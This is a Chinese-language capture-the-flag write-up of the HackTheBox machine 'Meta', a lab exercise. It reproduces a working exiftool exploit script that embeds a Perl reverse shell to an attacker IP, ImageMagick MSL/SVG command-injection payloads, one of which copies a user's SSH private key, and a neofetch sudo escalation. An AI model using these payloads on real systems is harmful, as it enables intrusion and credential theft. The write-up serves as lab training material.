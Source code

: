 ```yaml
---
title: Meta
date: 2022-02-28 18:03:59
tags: HackThebox
categories: 文件上传漏洞
---
```


## 信息收集
发现目标主机只开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/e44de3ff9ec249158e313f30d95c73ee.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
当我们访问web主页时，发现只是一个很普通的apache搭建的页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/5faebd3ecae84cfcb3b00eacdf9fdfc5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

目录扫描貌似好像也没发现什么有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/1e7e687ac113488b8fb14fa19ed5a61d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

什么发现也没有，当我们扫描子域名时，发现了一个子域
![在这里插入图片描述](https://img-blog.csdnimg.cn/1314b6048efc42bca44cf2435e76decf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
当我们访问这个子域时，发现是一个文件上传的点。经过反复测试，初步断定它对上传内容进行了仔细的检查，任何不符合图片特征的文件都会被过滤掉
![在这里插入图片描述](https://img-blog.csdnimg.cn/22c1b5eabb3e4ce09a79adbcb78671b9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们尝试上传一张正常的图片试试，这个格式是否很眼熟？对的，这是exiftool工具的输出格式
![在这里插入图片描述](https://img-blog.csdnimg.cn/2eeabd15c6a041ff8ac20e97e9fac527.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/63c038ce761e41d3b3cc235f3354e1b6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用
说实话这里是我自己本人没想到，可能是我自己的经验不太够吧。这里我们要找的是exiftool对应的漏洞，对的没想到吧，我也是参考了别人的意见才知道的。这里已经披露出了对应的漏洞编号了
![在这里插入图片描述](https://img-blog.csdnimg.cn/79945371d22b48d38a108e4b60f39dbb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我选择了第二个网址上的漏洞利用脚本，因为上面那个依赖问题太复杂了。首先我们先生成一个图片马文件，将脚本文件的IP和监听端口改成我们对应的IP和端口

```python
#!/bin/env python3

import base64
import subprocess

ip = '10.10.14.60'
port = '4444'

payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"


payload = payload + base64.b64encode( f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({port},inet_aton('{ip}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};".encode() )

payload = payload + b"'))};\")"


payload_file = open('payload', 'w')
payload_file.write(payload.decode('utf-8'))
payload_file.close()


subprocess.run(['bzz', 'payload', 'payload.bzz'])
subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])
subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'image.jpg']) 

```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fac6e927ad1940cc90f1a379e3b299c5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
上传image.jpg木马图片后，我们得到了www-data用户的权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/9380c7ea757846259f3151ada423caf7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是当我们进入thomas用户的`.ssh`目录时，发现没有权限，并且user.txt文件也没有权限查看
![在这里插入图片描述](https://img-blog.csdnimg.cn/7888820403bb4a8382561e6bd9c30d71.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
查看主机的内核版本，发现是64位的Linux主机
![在这里插入图片描述](https://img-blog.csdnimg.cn/cb52633575a546c2817023ca0d7b04b1.png)
我们可以尝试上传pspy64这个脚本进行探测，pspy 是一个命令行工具，旨在侦听进程而无需 root 权限。它允许您在执行时查看其他用户、cron 作业等运行的命令。发现了一个`convert_images.sh`脚本
![在这里插入图片描述](https://img-blog.csdnimg.cn/062aec9a84b14b5190b0501765926e0e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们查看一下这个脚本的内容，发现它是先进入到对应的目录中，然后再运行mogrify这个程序将发现的文件转换为png文件，最后杀死这个进程。
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac6aaed6b8334939a293bfd860e98975.png)
我们可以查看一下mogrify这个程序的版本，发现是`7.0.10-36`
![在这里插入图片描述](https://img-blog.csdnimg.cn/073f7d8415794159b62d0729a8c746f0.png)
在网上搜索到对应的漏洞编号是`CVE-2016-3714`
![在这里插入图片描述](https://img-blog.csdnimg.cn/3b8c9945b1b34bdcb9bf0ab65d8dc735.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
利用的方法是上传一个poc.svg文件到`/dev/shm`目录下，并将poc.svg文件复制到`/var/www/dev01.artcorp.htb/convert_images/`这个目录下，经过一段时间后会生成一个0wned文件，输出了用户名证明文件成功执行了包含的命令

```xml
<image authenticate='ff" `echo $(id)> /dev/shm/0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/4c3e86599bf44cfc96a8a44f7ec80ac1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们修改一下poc.svg里面的内容，尝试将`thomas`账户的密钥文件读取出来

```xml
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
成功读取密钥信息，我们可以开启一个http服务将id_rsa文件下载下来
![在这里插入图片描述](https://img-blog.csdnimg.cn/1e6d846d9e1f4541bfd05772e96373d6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
重新编排一下顺序后，可以成功连接到thomas用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/d92c5bb5b20846719f1eb0a4e5c57592.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权到ROOT
我们输入`sudo -l`命令，发现一个`neofetch`程序可以以root身份运行
![在这里插入图片描述](https://img-blog.csdnimg.cn/5e89769e71c5441f821d397997cab9ee.png)
我们尝试运行这个程序，输出是linux内核的基本信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e51200b476d4973853ae1f498c63e2b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
既然这个程序可以利用，那么我们可以进入这个程序的配置文件中，更改其配置文件信息达到我们提权的目的。我们更改`/home/thomas/.config/neofetch`这个目录下的config.conf文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/7383f86d421b435a81e6f2e51b8a4e7b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
因为我们使用neofetch程序提权的时候，会保留XDG_CONFIG_HOME的环境变量，所以我们要将thomas.config导出到基本配置环境路径
![在这里插入图片描述](https://img-blog.csdnimg.cn/a0cb500158324ae88c35eb1c1f8d319f.png)
得到root权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/f40946dc24a94472b51143eaebc4fbff.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 总结
总的来说，这个靶机还是相当有难度的。我后面提权部分基本也是照着别人的建议来做，真的实在是太难了。提权和漏洞利用的方法都是在红队攻防实战中非常常见的，能掌握对技术提升方面很有帮助。
